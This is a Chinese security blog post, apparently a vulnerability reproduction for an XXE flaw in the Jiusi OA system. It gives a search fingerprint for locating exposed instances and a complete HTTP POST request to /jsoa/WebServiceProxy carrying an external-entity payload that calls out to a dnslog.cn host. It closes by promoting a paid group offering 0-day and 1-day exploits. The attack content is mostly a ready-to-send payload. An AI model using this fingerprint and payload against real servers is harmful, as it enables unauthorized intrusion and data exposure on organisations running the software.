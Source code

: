 #  【漏洞复现】九思oa-XXE  
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-06-16 23:01  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
指纹  
```
body="/jsoa/login.jsp"
```  
  
  
2  
  
Action  
```
POST /jsoa/WebServiceProxy HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xxx.dnslog.cn">
 %remote;]>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZKn5F9wXcZVHw4kykeFZEibeRn89piaiaRhTwN3Sia7DQx74CdLpqxMuNu5D3QadpnA1nrZYXHPeWJWA/640?wx_fmt=png&from=appmsg "")  
  
代码审计报告已上传至纷传圈子中，需要的师傅可以自取哈  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
- 不定期分享0/1day  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UaQw8cfe5zo87XFXicicayuia9gvdmBnX6lOnSygn4NFJlzqeyxyes0uIYicDwGwh3rbAYicdwYFhK3Ang/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
